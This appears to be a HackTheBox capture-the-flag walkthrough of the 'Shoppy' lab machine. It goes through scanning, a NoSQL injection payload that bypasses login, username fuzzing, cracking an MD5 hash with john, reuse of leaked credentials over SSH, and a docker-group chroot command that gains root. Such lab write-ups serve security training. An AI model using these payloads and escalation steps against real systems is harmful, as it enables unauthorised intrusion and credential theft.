# Hackthebox - Shoppy


This post is focused on the walkthrough of Easy Machine Shoppy from HackTheBox.

<!--more-->

## Enumeration

Starting out with the initial nmap scan.

```bash
┌──(saad👻ssaadakhtarr)-[~/Desktop/hackthebox/machines/shoppy]
└─$ nmap -A -vv 10.129.12.86 -oN nmapN

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDApZi3Kltv1yDHTatw6pKZfuIcoHfTnVe0W1yc9Uw7NMUinxjjQaQ731J+eCTwd8hBcZT6HQwcchDNR50Lwyp2a/KpXuH2my+2/tDvISTRTgwfMy1sDrG3+KPEzBag07m7ycshp8KhrRq0faHPrEgcagkb5T8mnT6zr3YonzoMyIpT+Q1O0JAre6GPgJc9im/tjaqhwUxCH5MxJCKQxaUf2SlGjRCH5/xEkNO20BEUYokjoAWwHUWjK2mlIrBQfd4/lcUzMnc5WT9pVBqQBw+/7LbFRyH4TLmGT9PPEr8D8iygWYpuG7WFOZlU8oOhO0+uBqZFgJFFOevq+42q42BvYYR/z+mFox+Q2lz7viSCV7nBMdcWto6USWLrx1AkVXNGeuRjr3l0r/698sQjDy5v0GnU9cMHeYkMc+TuiIaJJ5oRrSg/x53Xin1UogTnTaKLNdGkgynMqyVFklvdnUngRSLsXnwYNgcDrUhXxsfpDu8HVnzerT3q27679+n5ZFM=
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHiKrH/B/4murRCo5ju2KuPgkMjQN3Foh7EifMHEOwmoDNjLYBfoAFKgBnrMA9GzA+NGhHVa6L8CAxN3eaGXXMo=
|   256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBRsWhJQCRHjDkHy3HkFLMZoGqCmM3/VfMHMm56u0Ivk
80/tcp open  http    syn-ack nginx 1.23.1
|_http-server-header: nginx/1.23.1
|_http-title:             Shoppy Wait Page        
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: D5F0A0ADD0BFBB2BC51607F78ECE2F57
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Only 2 ports are open. We'll go for port 80.

We have a website redirecting to ```shoppy.htb```. We'll add this domain in ```/etc/hosts```.



Not much to look at on the main site so we'll go for the dir bruteforcing.

```bash
┌──(saad👻ssaadakhtarr)-[~/Desktop/hackthebox/machines/shoppy]
└─$ gobuster dir -u http://shoppy.htb/ -w /usr/share/wordlists/dirb/common.txt -o dir

/admin                (Status: 302) [Size: 28] [--> /login]
/Admin                (Status: 302) [Size: 28] [--> /login]
/ADMIN                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]
/exports              (Status: 301) [Size: 181] [--> /exports/]
/favicon.ico          (Status: 200) [Size: 213054]
/fonts                (Status: 301) [Size: 177] [--> /fonts/]
/images               (Status: 301) [Size: 179] [--> /images/]
/js                   (Status: 301) [Size: 171] [--> /js/]
/login                (Status: 200) [Size: 1074]
/Login                (Status: 200) [Size: 1074]

```

Visiting ```/admin``` we get redirected to ```/login``` which is a login page.



Default credentials didn't work here so we can try for sqli.

Adding a ```'``` at the end of username we are getting a ```504```.



On enumerating further, I also tried some NoSQL payloads out of which one of the payload redirected to the admin panel.

Payload: ```admin' || '```



Looking around in admin panel, the search for users page searches for the known users and returns a json file containing that user's ```id```, ```username```, and ```password```.





I tried cracking the admin's password with ```john``` but no luck with the ```rockyou.txt``` wordlist.

Also notice that we can enumerate usernames as well with the search users page.

Using ```wfuzz``` we can enumerate other users as well. I used [names.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/Names/names.txt) from the SecLists.

```bash
┌──(saad👻ssaadakhtarr)-[~/Desktop/hackthebox/machines/shoppy]
└─$ wfuzz -H "Host: shoppy.htb" -w users.txt --ss "Download export" -b "connect.sid=s%3A41NRGQUoz12IMj3vHfsgSbaY2yFHZ-DT.%2F1vdICypeZqYvyhWQXkgxKJoPWuq9SEqCr9jmgSUwUU" http://shoppy.htb/admin/search-users?username=FUZZ 

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                
=====================================================================

000000086:   200        55 L     160 W      2720 Ch     "admin"                                                                                
000004909:   200        55 L     160 W      2720 Ch     "josh" 

```

And we got another username ```josh```.

We can look at the password of this user and try cracking it as well.

```
┌──(saad👻ssaadakhtarr)-[~/Desktop/hackthebox/machines/shoppy]
└─$ john --wordlist=/home/saad/Documents/wordlists/rockyou.txt --format=Raw-MD5 josh.hash
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
remembermethisway (?)     
1g 0:00:00:07 DONE (2022-09-18 06:28) 0.1386g/s 112643p/s 112643c/s 112643C/s renato1989..reiji
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

We successfully cracked the password of ```josh``` user which is ```remembermethisway```.

We can try this password with ```ssh``` but sadly no luck with that.

Another dead end? Now we can fuzz for vhosts.

## Foothold

I tried looking for virtual hosts with different wordlists and [this](https://github.com/danielmiessler/SecLists/blob/master/Discovery/DNS/bitquark-subdomains-top100000.txt) wordlist from SecLists found a valid subdomain for us.

```
┌──(saad👻ssaadakhtarr)-[~/Desktop/hackthebox/machines/shoppy]
└─$ gobuster vhost -u http://shoppy.htb/ -w /home/saad/Documents/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -o vhost -t 100 

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://shoppy.htb/
[+] Method:       GET
[+] Threads:      100
[+] Wordlist:     /home/saad/Documents/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/09/18 06:34:35 Starting gobuster in VHOST enumeration mode
===============================================================
Found: mattermost.shoppy.htb (Status: 200) [Size: 3122]
                                                       
===============================================================
2022/09/18 06:38:23 Finished
===============================================================
```

Let's add ```mattermost.shoppy.htb``` to ```/etc/hosts```.

Visiting the new subdomain revealed another login page.



Trying the credentials of ```josh``` we found above we can successfully log in.



Looking around the messages in different channels, we found some credentials for user ```jaeger``` in the ```Deploy Machine``` channel.



We can use these credentials to ```ssh``` into the machine.

And we're in.

## user.txt

```
┌──(saad👻ssaadakhtarr)-[~/Desktop/hackthebox/machines/shoppy]
└─$ ssh jaeger@shoppy.htb                                           
jaeger@shoppy.htb's password: Sh0ppyBest@pp!

jaeger@shoppy:~$ whoami
jaeger

jaeger@shoppy:~$ ls -al
total 96
drwxr-xr-x 19 jaeger jaeger 4096 Jul 22 15:56 .
drwxr-xr-x  4 root   root   4096 Jul 22 13:12 ..
lrwxrwxrwx  1 jaeger jaeger    9 Jul 22 11:42 .bash_history -> /dev/null
-rw-r--r--  1 jaeger jaeger  220 Jul 22 11:39 .bash_logout
-rw-r--r--  1 jaeger jaeger 3723 Jul 22 12:05 .bashrc
drwx------ 14 jaeger jaeger 4096 Jul 22 12:55 .cache
drwx------ 12 jaeger jaeger 4096 Jul 22 13:47 .config
lrwxrwxrwx  1 jaeger jaeger    9 Jul 22 15:56 .dbshell -> /dev/null
drwxr-xr-x  2 jaeger jaeger 4096 Jul 22 11:40 Desktop
drwxr-xr-x  2 jaeger jaeger 4096 Jul 22 11:40 Documents
drwxr-xr-x  2 jaeger jaeger 4096 Jul 22 11:40 Downloads
drwx------  3 jaeger jaeger 4096 Jul 23 03:10 .gnupg
drwxr-xr-x  3 jaeger jaeger 4096 Jul 22 11:40 .local
-rw-------  1 jaeger jaeger    0 Jul 22 15:55 .mongorc.js
drwxr-xr-x  2 jaeger jaeger 4096 Jul 22 11:40 Music
drwxr-xr-x  4 jaeger jaeger 4096 Jul 22 12:06 .npm
drwxr-xr-x  5 jaeger jaeger 4096 Jul 22 12:06 .nvm
drwxr-xr-x  2 jaeger jaeger 4096 Jul 22 11:40 Pictures
drwxr-xr-x  5 jaeger jaeger 4096 Sep 18 03:50 .pm2
-rw-r--r--  1 jaeger jaeger  807 Jul 22 11:39 .profile
drwxr-xr-x  2 jaeger jaeger 4096 Jul 22 11:40 Public
drwxr-xr-x  7 jaeger jaeger 4096 Jul 23 03:42 ShoppyApp
-rwxr--r--  1 jaeger jaeger  130 Jul 22 12:25 shoppy_start.sh
drwx------  2 jaeger jaeger 4096 Jul 22 11:42 .ssh
drwxr-xr-x  2 jaeger jaeger 4096 Jul 22 11:40 Templates
-rw-r-----  1 jaeger jaeger   33 Sep 18 03:51 user.txt
drwxr-xr-x  2 jaeger jaeger 4096 Jul 22 11:40 Videos

jaeger@shoppy:~$ cat user.txt
78****************************bd
```

## Privilege Escalation

Running ```sudo -l``` we can run ```/home/deploy/password-manager``` as user ```deploy```.

```
jaeger@shoppy:~$ sudo -l

Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

The file ```password-manager``` is a 64-bit ```ELF``` binary.



We can run the binary to analyze it's behavior.

```
jaeger@shoppy:~$ sudo -u deploy /home/deploy/./password-manager
Welcome to Josh password manager!
Please enter your master password: test
Access denied! This incident will be reported !
```

Upon running the binary, it asks for a password and on giving a wrong password it shows access denied.

Reading the contents of the binary using ```cat``` we can see the password in plain text.



On entering the password ```Sample```, we get credentials for the user ```deploy```.

```
jaeger@shoppy:~$ sudo -u deploy /home/deploy/./password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!

jaeger@shoppy:~$
```

Switching to ```deploy``` user.

```
jaeger@shoppy:~$ su deploy
Password: Deploying@pp!

deploy@shoppy:/home/jaeger$ whoami
deploy
```

## root.txt

The ```id``` command shows the user ```deploy``` is part of the ```docker``` group. We can simply run [this](https://gtfobins.github.io/gtfobins/docker/#shell) exploit from gtfobins to escalate to root.

```
deploy@shoppy:/home/jaeger$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)

deploy@shoppy:/home/jaeger$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh

root@e79ceb533a94:/# whoami
root

root@e79ceb533a94:/# cat /root/root.txt
e6****************************48

```

**Thanks for reading!**
